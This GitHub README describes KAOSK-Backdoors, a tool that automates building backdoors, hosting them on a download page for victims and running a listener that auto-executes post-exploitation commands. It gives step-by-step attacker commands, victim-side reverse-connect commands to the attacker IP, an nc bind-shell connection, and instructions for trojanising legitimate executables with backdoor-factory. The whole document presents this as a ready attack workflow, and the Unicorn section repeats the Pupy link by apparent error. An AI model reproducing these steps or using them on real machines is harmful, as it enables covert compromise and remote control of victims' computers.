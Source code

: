 # KAOSK-Backdoors
==========
It's a tool that automates: 
+ the installation of some Backdoor's creation programs
+ the creation of the backdoors to use in a victim machine
+ a web where you can download the backdoors created
+ the listener of the backdoors downloaded
+ the actions of the listener

## Example
Using Kali2 as the attacker with IP: 192.168.0.100

Using any machine as the victim in the same network as the attacker.

Run in Kali:
+ git clone https://github.com/carlospolop/KAOSK-backdoors.git
+ python ./install.py
+ python ./create_backdoors.py 192.168.0.100
+ python ./handler.py 192.168.0.100

In the victim machine:

Use a browser and navigate to 192.168.0.100/back and you will see the backdoors created before in the attacker machine.
Download the backdoor that you want to use.

Run the backdoor.


You will have a session of the victim's machine in Kali.

If you had chosen a backdoor created using msfvenom, backdoor-factory or unicorn, you will have a metasploit session of the victim. The metasploit's sessions can be configured to automatically run post modules, meterpreter commands and shell commands in the config folder. This means that when you capture a metasploit sessions this modules and commands will run automatically.

## How to configure which post modules, meterpreter commands and shell commands automatically run
You just have to go to the config folder and there you will find some folders of differents OS. Go inside anyone and you will find some text documents where you can write which post modules, meterpreters commands and shell commands run when you capture a session in a machine that uses the OS selected.

## Requirements
+ Python
+ Measploit
+ Backdoor-factory
+ Apache2

KAOSK has been tested in Kali2.

## Install
python ./install.py

## Create Backdoors
python ./create_backdoors.py <IP_attacker>

## Start handler
python ./handler.py <IP_attacker>


# To Know about the backdoors
--------------------
## Backdoors used:
+ Backdoor-factoy
+ MiaoMiao
+ Msfvenom
+ Pupy
+ RSPET
+ Unicorn

## Backdoor-factory
The backdoor-factory introduces the backdoors inside executables.

If you want to corrupt a executable, you just have to download the original, move it to the correct folder inside ./BDF_prepared and run python ./create_backdoors.py <IP_attacker> (or python ./backdoor-factoryAuto.py <IP_attacker>)

https://github.com/secretsquirrel/the-backdoor-factory.git

## MiaoMiao
This backdoor opens a port in the victims machine and the attacker connects to it. The default port is 55555
To use this backdoor you have to run:
+ Victim: Run MiaoMiamo_folder/src_backdoor/server_dist/newest_version
+ Attacker: nc IP_Victim 55555 -vv

https://github.com/marc0l92/MiaoMiao_project.git

## Msfvenom
Of course.

## Pupy
Creates differents types of backdoors and use it's own listener. It is all automated and the process followed to use these backdoors is:
+ Victim: Run the file create using ./pupygen.py -f lin_x64  connect --host IP_Attacker
+ Attacker: ./pupysh.py

https://github.com/n1nj4sec/pupy.git

## RSPET
To use this backdoor you have to run:
+ Victim: Run python RSPET_folder/Client/rspet_client.py <IP_Attacker>
+ Attacker: (This part is automated) Run Server > rspet_server.py 

https://github.com/panagiks/RSPET.git

## Unicorn
Creates differents types of backdoors and it is all automated.
Use metasploit as listener.

https://github.com/n1nj4sec/pupy.git
